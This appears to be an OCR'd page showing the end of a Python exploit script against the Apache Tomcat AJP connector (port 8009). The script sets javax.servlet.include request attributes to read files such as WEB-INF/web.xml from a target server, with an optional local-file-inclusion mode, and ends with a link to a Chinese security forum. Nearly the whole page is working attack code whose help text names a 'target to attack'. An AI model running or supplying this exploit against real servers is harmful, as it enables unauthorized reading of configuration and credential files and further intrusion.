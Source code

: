             for a in attributes:
                self.forward_request.attributes.append(a)
            responses = self.forward_request.send_and_receive(
                self.socket, self.stream)
            if len(responses) == 0:
                return None, None
            snd_hdrs_res = responses[0]
            data_res = responses[1:-1]
            if len(data_res) == 0:
                print("No data in response. Headers:%s\n" %
                      snd_hdrs_res.response_headers)
            return snd_hdrs_res, data_res


    parser = argparse.ArgumentParser()
    parser.add_argument("target", type=str, help="Hostname or IP to attack")
    parser.add_argument('-p', '--port', type=int, default=8009,
                        help="AJP port to attack (default is 8009)")
    parser.add_argument('-w', '--webapp', type=str, default='ROOT',
                        help="Which webapp to attack (default is ROOT")
    parser.add_argument('-f', '--file', type=str,
                        default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
    parser.add_argument('-l', '--lfi', action="store_true",
                        help="local file include")
    args = parser.parse_args()
    t = Tomcat(args.target, args.port)
    _, data = t.perform_request('/'+args.webapp+'/', attributes=[
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.request_uri', '/']},
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.path_info', args.file]},
        {'name': 'req_attribute', 'value': [
            'javax.servlet.include.servlet_path', '/']},
    ], lfi=args.lfi)
    print('----------------------------')
    print("".join([d.data for d in data]))

参考链接
--------

> <https://forum.90sec.com/t/topic/801>
